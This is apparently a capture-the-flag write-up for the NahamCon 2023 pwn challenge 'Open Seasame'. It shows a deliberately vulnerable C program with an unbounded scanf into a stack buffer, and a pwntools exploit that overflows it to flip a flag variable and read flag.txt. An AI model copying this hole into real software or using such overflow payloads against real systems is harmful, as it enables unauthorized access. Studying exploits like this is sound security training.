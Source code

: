 ```yaml
---
title: Open Seasame  , NahamCon 2023
author: megachar0x01
date: 2023-06-19
categories: [Pwn, amd64, ctf]
---
```


## Description : 
The updated program prompts the user to enter a password to open a simulated cave of gold. In addition to entering the correct password, the boolean variable `caveCanOpen` must also be set to `yes` for the cave to open. If both conditions are met, the program displays a success message, executes a system command to reveal the contents of the 'flag.txt' file (the treasure), and terminates. If the password is incorrect or the `caveCanOpen` variable is not set to `yes`, the program displays an error message or exits. The given program does not enforce any length limit on the user input, making it vulnerable to buffer overflow attacks. An attacker could potentially craft a payload by appending the correct password followed by a null byte to terminate the string, and then provide a large amount of junk values to override the `caveCanOpen` variable on the stack. By doing so, the attacker can bypass the check for `caveCanOpen == no` and proceed to the password validation step. This can lead to unauthorized access to the cave's treasure `flag.txt`

## Protection:

<img src="https://i.imgur.com/BhZ36RY.png" alt="vuln_1">


## Vulnerable Code:


```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>


typedef enum {no, yes} Bool;

void flushBuffers() {
    fflush(NULL);
}

void flag()
{  
    system("/bin/cat flag.txt");
    flushBuffers();
}

Bool isPasswordCorrect(char *input)
{
    return (strncmp(input, "OpenSesame!!!", strlen("OpenSesame!!!")) == 0) ? yes : no;
}

void caveOfGold()
{
    Bool caveCanOpen = no;
    char inputPass[256];
    
    puts("BEHOLD THE CAVE OF GOLD\n");

    puts("What is the magic enchantment that opens the mouth of the cave?");
    flushBuffers();
    
    scanf("%s", inputPass);

    if (caveCanOpen == no)
    {
        puts("Sorry, the cave will not open right now!");
        flushBuffers();
        return;
    }

    if (isPasswordCorrect(inputPass) == yes)
    {
        puts("YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:");
        flag();
    }
    else
    {
        puts("ERROR, INCORRECT PASSWORD!");
        flushBuffers();
    }
}

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    caveOfGold();

    return 0;
}
```

## Exploit:

```python
#!/usr/bin/python3
from pwn import *
import struct

# Set the log level to control the verbosity of logs
context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *isPasswordCorrect
continue
'''.format(**locals())

# Set the path to the binary
exe = './open_sesame'
elf = context.binary = ELF(exe, checksec=False)
exe_rop = ROP(elf, checksec=False)

# Get the libc library
libc = elf.libc
libc_rop = ROP(libc, checksec=False)

# Start the process
io = start()

# Set the padding size
padd = 280

# Create the payload
payload = b"A" * padd
payload += b"B" * 6
payload = b"OpenSesame!!!\x00aaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa"

# Send the payload to the target binary
io.sendlineafter(b"What is the magic enchantment that opens the mouth of the cave?\n", payload)

# Switch to interactive mode to interact with the exploited binary
io.interactive()


```
